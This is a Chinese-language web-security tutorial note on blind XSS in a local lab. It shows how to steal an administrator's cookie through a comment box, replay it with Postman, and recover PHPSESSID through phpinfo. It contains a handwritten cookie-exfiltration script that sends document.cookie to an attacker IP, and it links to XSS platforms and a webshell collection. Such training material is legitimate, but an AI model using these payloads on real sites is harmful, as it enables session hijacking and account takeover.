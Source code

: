 ![](https://gitee.com/YatJay/image/raw/master/img/202203022011002.png)

# 涉及知识

## XSS漏洞利用的要点

### XSS的核心

网站管理者后台会查看我们提交的数据，抓住这一点，这一点就是成为跨站攻击的点

### XSS应用场景

- 留言板
- 评论区
- 订单系统
- 反馈条件等

## XSS平台及工具使用

### 在线XSS平台

https://xss.pt/xss.php——优先

https://xss8.cc/——有时没有响应

也可参考《Web安全攻防：渗透测实战指南》第二章的内容，自己搭建XSS平台

## Session与Cookie获取问题

### XSS获取到的Cookie不能直接用来登录网站后台

对比XSS获得的Cookie和管理员浏览器中直接拿到的Cookie

XSS平台中得到的Cookie

```
cookie : ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=cd5380a5bb4c679e5c76da76891b16b3
```

使用此Cookie成功登录pikachu的XSS盲打后台

![](https://gitee.com/YatJay/image/raw/master/img/202203041443036.png)

管理员浏览器直接获取到的Cookie值

```
Cookie
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=cd5380a5bb4c679e5c76da76891b16b3
```

使用此Cookie也可以成功登录pikachu的XSS盲打后台

以上测试，两种方法得到的Cookie值无差别，但是**有时XSS获取到的Cookie值相比直接拿到的Cookie值，会缺少一个字段，即PHPSESSID字段(JSP脚本网站则为JSPSESSID)**

如果目标网站使用Session进行验证，那么盗取Cookie进行攻击登录是无效的，如果XSS接收不到PHPSESSID值，就无法登录管理员后台。比如删除PHPSESSID字段后进行登录后台失败

![](https://gitee.com/YatJay/image/raw/master/img/202203041455887.png)

一般地，若使用SESSION进行用户验证，会在后台代码中写明，比如jfdd的管理员验证部分代码如下

```php
<?php 
session_start(); //要验证SESSION，看是不是管理员
if($_SESSION["admin"]!="jfdd"){

	echo "<script>location.href='../';</script>";
    exit;
}
?>
```

#### PHPSESSID字段的获取——配合读取phpinfo等信息源码等

如果对方服务器使用Session验证，无法通过XSS一次性得到PHPSESSID，则在对方服务器构造phpinfo页面，当中提到Cookie值时会记录PHPSESSID值，可以为我们所用

![](https://gitee.com/YatJay/image/raw/master/img/202203041502641.png)

具体思路为让对方的跨站漏洞访问我们构造的phpinfo文件，将访问结果返回，读取返回结果后获得PHPSESSID，在线XSS平台也具备此功能即返回页面源码模块

![](https://gitee.com/YatJay/image/raw/master/img/202203041506773.png)

用此模块提供的脚本，访问我们上传的phpinfo页面并返回结果，从返回结果中得到PHPSESSID，但是此方法比较鸡肋。

# 演示案例

## 某营销订单系统XSS盲打—平台

配置环境：在本地网站根目录，按照说明，安装军锋真人CS野战在线预订系统安装程序V1.0

![](https://gitee.com/YatJay/image/raw/master/img/202203031030361.png)

在线XSS平台https://xss.pt/xss.php，注册并创建新项目，只勾选默认模块即可

找一个获取XSS语句，本XSS目的是获取网站管理员Cookie

![](https://gitee.com/YatJay/image/raw/master/img/202203031753781.png)

复制XSS语句粘贴到目标网站留言板，提交留言

![](https://gitee.com/YatJay/image/raw/master/img/202203031754213.png)

到管理员后台查看，查看前端代码，可见已经触发XSS语句

![](https://gitee.com/YatJay/image/raw/master/img/202203031757544.png)

在XSS平台可以看到获取到了管理员Cookie

![](https://gitee.com/YatJay/image/raw/master/img/202203031758896.png)

## 工具Http/s数据包提交Postman使用

接上述获取到的Cookie，使用Postman工具，利用Cookie进行登录

这里我们使用本地浏览器的原始Cookie值而不是XSS平台中获取到的Cookie值(原因后面再说，此处演示使用Postman带Cookie值进行访问的流程)

复制本地浏览器原始Cookie

![](https://gitee.com/YatJay/image/raw/master/img/202203031811439.png)

使用Postman工具带Cookie值(浏览器原始Cookie值)进行访问

![](https://gitee.com/YatJay/image/raw/master/img/202203031814002.png)

点击send进行访问，可以成功进入管理员后台

![](https://gitee.com/YatJay/image/raw/master/img/202203031815539.png)

**注意**：此处带Cookie值访问网站后台使用的是从(管理员的)浏览器获得的原始Cookie，而非在XSS平台收到的Cookie值。仅做带Cookie访问网站后台的演示操作，原因后续讲解。

## 不使用在线XSS平台—手写代码

获取Cookie的核心代码为`document.cookie`的值，只需提交XSS脚本使得目标网站把`document.cookie`的结果返回到攻击者的机器上

前台如留言板提交的XSS脚本示例如下：

```js
<script>location.href="http://192.168.132.144/cookie.php?cookie="+document.cookie</script>
```

意思是将目标网站的Cookie值，以GET方式提交到攻击者主机`192.168.132.144`的`cookie.php`文件，由`cookie.php`来处理捕获的Cookie信息

在攻击方查看cookie.php的处理结果，比如是将收到的Cookie值写入某个文件当中等

详细见：[XSS提取cookie到远程服务器](https://blog.css8.cn/post/13058394.html)

## 某Shell箱子系统XSS盲打—工具

00:34:00–01:02:00

## Kali Linux的BeEf-Xss漏洞利用框架的使用

见于补充内容中的工具使用目录下，如下链接

[Kali Linux的Beef-Xss漏洞利用框架的使用](../Part0 补充内容/03_工具使用/Kali的BeEF-XSS安装与使用)

# 涉及资源

http://xss.fbisb.com/

https://github.com/tennc/webshell

https://www.postman.com/downloads/

XSS-订单系统.zip (428 KB) ：https://pan.baidu.com/s/1lIUZvEVXs1du-Bmkt7-abA 提取码：xiao 

WEBSHELL箱子系统V2.0.rar (65 KB)：https://pan.baidu.com/s/13H4N1VTBVwd3t8YWpECBFw 提取码：xiao 
